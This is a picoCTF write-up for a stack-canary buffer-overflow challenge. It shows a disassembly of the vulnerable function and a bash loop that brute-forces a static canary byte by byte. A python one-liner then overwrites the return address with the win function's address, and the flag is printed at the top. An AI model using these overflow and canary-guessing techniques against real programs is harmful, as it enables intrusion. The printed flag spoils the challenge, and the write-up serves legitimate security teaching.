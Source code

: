 # Exp

# Flag: picoCTF{Stat1C_c4n4r13s_4R3_b4D_10a64ab3}

Do you think you can bypass the protection and get the flag? It looks like Dr. Oswal added a stack canary to this program to protect against buffer overflows.

file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=5fadb3d053aee24d87bef67c56037d6d9e2b56f2, for GNU/Linux 3.2.0, not stripped

checksec vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

# Crashing the program
./vuln
How Many Bytes will You Write Into the Buffer?
> 65
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
***** Stack Smashing Detected ***** : Canary Value Corrupt!

Sending 65 A crashes the vuln binary

## Gather important information
win function address 0x08049336


gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x08049461 <+0>:     endbr32
   0x08049465 <+4>:     push   ebp
   0x08049466 <+5>:     mov    ebp,esp
   0x08049468 <+7>:     push   ebx
   0x08049469 <+8>:     sub    esp,0x94
   0x0804946f <+14>:    call   0x8049270 <__x86.get_pc_thunk.bx>
   0x08049474 <+19>:    add    ebx,0x2b8c
   0x0804947a <+25>:    mov    DWORD PTR [ebp-0xc],0x0              ;*** int x = 0
   0x08049481 <+32>:    mov    eax,0x804c054
   0x08049487 <+38>:    mov    eax,DWORD PTR [eax]
   0x08049489 <+40>:    mov    DWORD PTR [ebp-0x10],eax             ;*** memcpy(canary,global_canary,CANARY_SIZE);
   0x0804948c <+43>:    sub    esp,0xc
   0x0804948f <+46>:    lea    eax,[ebx-0x1f40]
   0x08049495 <+52>:    push   eax
   0x08049496 <+53>:    call   0x8049140 <printf@plt>
   0x0804949b <+58>:    add    esp,0x10
   0x0804949e <+61>:    jmp    0x80494d1 <vuln+112>
   0x080494a0 <+63>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080494a3 <+66>:    lea    edx,[ebp-0x90]
   0x080494a9 <+72>:    add    eax,edx
   0x080494ab <+74>:    sub    esp,0x4
   0x080494ae <+77>:    push   0x1
   0x080494b0 <+79>:    push   eax
   0x080494b1 <+80>:    push   0x0
   0x080494b3 <+82>:    call   0x8049130 <read@plt>
   0x080494b8 <+87>:    add    esp,0x10
   0x080494bb <+90>:    lea    edx,[ebp-0x90]
   0x080494c1 <+96>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080494c4 <+99>:    add    eax,edx
   0x080494c6 <+101>:   movzx  eax,BYTE PTR [eax]
   0x080494c9 <+104>:   cmp    al,0xa
   0x080494cb <+106>:   je     0x80494d9 <vuln+120>
   0x080494cd <+108>:   add    DWORD PTR [ebp-0xc],0x1
   0x080494d1 <+112>:   cmp    DWORD PTR [ebp-0xc],0x3f
   0x080494d5 <+116>:   jle    0x80494a0 <vuln+63>
   0x080494d7 <+118>:   jmp    0x80494da <vuln+121>
   0x080494d9 <+120>:   nop
   0x080494da <+121>:   sub    esp,0x4
   0x080494dd <+124>:   lea    eax,[ebp-0x94]
   0x080494e3 <+130>:   push   eax
   0x080494e4 <+131>:   lea    eax,[ebx-0x1f0e]
   0x080494ea <+137>:   push   eax
   0x080494eb <+138>:   lea    eax,[ebp-0x90]
   0x080494f1 <+144>:   push   eax
   0x080494f2 <+145>:   call   0x80491e0 <__isoc99_sscanf@plt>
   0x080494f7 <+150>:   add    esp,0x10
   0x080494fa <+153>:   sub    esp,0xc
   0x080494fd <+156>:   lea    eax,[ebx-0x1f0b]
   0x08049503 <+162>:   push   eax
   0x08049504 <+163>:   call   0x8049140 <printf@plt>
   0x08049509 <+168>:   add    esp,0x10
   0x0804950c <+171>:   mov    eax,DWORD PTR [ebp-0x94]
   0x08049512 <+177>:   sub    esp,0x4
   0x08049515 <+180>:   push   eax
   0x08049516 <+181>:   lea    eax,[ebp-0x50]                         ;*** buf
   0x08049519 <+184>:   push   eax
   0x0804951a <+185>:   push   0x0
   0x0804951c <+187>:   call   0x8049130 <read@plt>                   ;*** read(0,buf,count);

buf is at ebp-0x50
canary is at ebp-0x10
buf is 64 bytes long

buf[64] ---> canaray[4] ---> padding[??] ---> <ebp> ---> <return address>

So if we write a script that sends 65 chars it will override the first canary byte. If no error, it means the byte is correct

```
for i in {0..255}; do python -c "print(\"65\\n\" + \"U\"*64 + chr($i))" | ./vuln >/dev/null && echo "$i"; done
```
or  `python guess_canary.py SILENT=1`

### Run remotely and the canary word is: BiRd


python -c "print(\"84\\n\" + \"A\"*64 + "BiRd" + "B" * 12 + \"\\x36\\x93\\x04\\x08\")" | ./vuln